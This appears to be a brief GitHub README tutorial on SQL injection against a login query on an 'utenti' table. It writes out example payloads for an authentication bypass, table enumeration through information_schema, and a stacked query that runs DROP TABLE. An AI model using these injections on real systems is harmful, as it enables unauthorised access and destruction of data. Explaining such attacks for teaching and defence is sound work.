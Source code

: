 # Attack on database

![image](https://github.com/user-attachments/assets/e1c77952-3368-4f4e-afd9-733de720be3c)


## What a database attack?
a database attack is: A malicious attempt to access, manipulate, steal or destroy data stored in a 
database management system (DBMS) by exploiting vulnerabilities in configuration, application logic or code.

## Main objectives of an attack:
@ Stealing sensitive information (e.g. user data, credit cards, credentials)

@ Change or delete data

@ Take control of the server

@ Gain unauthorised access to restricted areas

## 1.comands 
```shell
! SELECT * FROM utenti WHERE username = '' OR '1'='1' AND password = '';
```
 Allowing access without valid credentials.

## 2. Unauthorized access: Using ' OR '1'='1' -, the query could be

```shell
SELECT * FROM utenti WHERE username = '' OR '1'='1' --' AND password = '';
```
The comment (--) ignores the rest of the query, allowing access.

## 3.Table Enumeration: An attacker might try to discover the database tables with:

```shell
$ UNION SELECT table_name, null FROM information_schema.tables;
```
## Running dangerous commands: By entering '; DROP TABLE users; -, the query could become:
```shell
$ SELECT * FROM utenti WHERE username = ''; DROP TABLE utenti; --' AND password = '';
```
